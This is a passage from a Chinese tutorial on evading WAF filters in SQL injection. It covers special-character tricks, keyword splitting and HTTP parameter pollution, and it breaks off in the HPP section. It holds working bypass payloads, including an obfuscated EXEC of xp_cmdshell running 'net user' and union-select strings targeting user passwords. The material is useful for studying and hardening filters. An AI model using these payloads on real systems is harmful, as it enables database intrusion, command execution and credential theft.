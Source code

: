 MySQL、PostgreSQL、Oracle 它们都有许多自己的函数基于黑名单的 filter 要想涵盖这么多东西从实际上来说不太可能而且代价太大因此黑名单的确是更适合处理已知的情况

### f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多

先看下 drops 上[waf 的绕过技巧](http://drops.wooyun.org/tips/132)一文使用的几个例子

```
1.使用反引号`，例如 select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
3.@符号，select@¹.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
4.Mysql function() as xxx  也可不用 as 和空格　　 select-count(id)test from users;  //绕过空格限制 
```

可见使用这些字符的确是能做很多事也证实了那句老话只有想不到没有做不到

笔者搜罗了部分可能发挥大作用的字符(这里未包括'、*、/等在内考虑到前面已经出现较多次了)

```
`、~、!、@、%、()、[]、.、-、+ 、|、%00 
```

举例

关键字拆分

```
'se'+'lec'+'t'
%S%E%L%E%C%T 1
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"') 
```

!和()' or --+2=- -!!!'2

```
id=1+(UnI)(oN)+(SeL)(EcT) 
```

//有看到说 Access 中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后再给出一些和这些字符多少有点关系的操作符供参考

```
> > , <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN 
```

使用这些"特殊符号"实现绕过是一件很细微的事情一方面各数据库对符号的处理是不尽相同的另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过

### g) HTTP 参数控制

这里 HTTP 参数控制除了对查询语句的参数进行篡改还包括 HTTP 方法、HTTP 头的控制

#### 1.HPP(HTTP Parameter Polution)

举例

```
/?id=1;select+1&id=2,3+from+users+where+id=1—
/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users 
```
